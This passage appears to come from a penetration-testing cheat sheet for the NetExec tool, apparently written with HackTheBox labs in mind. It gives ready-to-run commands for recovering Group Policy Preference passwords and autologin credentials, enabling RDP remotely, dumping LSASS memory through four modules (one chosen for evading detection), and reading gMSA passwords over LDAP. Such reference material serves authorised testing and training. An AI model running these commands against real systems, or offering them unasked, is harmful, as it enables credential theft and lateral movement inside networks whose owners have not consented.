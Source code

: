 Check `/tmp/export.xml` after.
{% endtab %}

{% tab title="GPP" %}
Retrieve the plaintext password for accounts pushed through GPPs:

```bash
nxc smb <ip> -u <user> -p <pass> -M gpp_password
```

Search for `registry.xml` files for autologin information:

```bash
nxc smb <ip> -u <user> -p <pass> -M gpp_autologin
```
{% endtab %}

{% tab title="RDP" %}
Enable RDP:

```bash
nxc smb <ip> -u <user> -p <pass> -M rdp -o ACTION=enable
```
{% endtab %}

{% tab title="LSASS" %}
Python-based, uses `impacket` to read the LSASS dump and `pypykatz` to extract credentials:

```bash
nxc smb <ip> -u <user> -p <pass> -M lsassy
```

Uses the Sysinternals `procdump` to create the LSASS dump and `pypykatz` to extract credentials:

```bash
nxc smb <ip> -u <user> -p <pass> -M procdump
```

Uses clone handles to create an obfuscated dump:

```bash
nxc smb <ip> -u <user> -p <pass> -M handlekatz
```

Opening a handle to LSASS can be detected, so it searches for existing handles, and if one is found, it copies it and creates a LSASS minidump:

```bash
nxc smb <ip> -u <user> -p <pass> -M nanodump
```
{% endtab %}
{% endtabs %}

## LDAP

{% tabs %}
{% tab title="GMSA" %}
```bash
nxc ldap dc01.rebound.htb -u <user> -p <pass> -k --gmsa
```
{% endtab %}
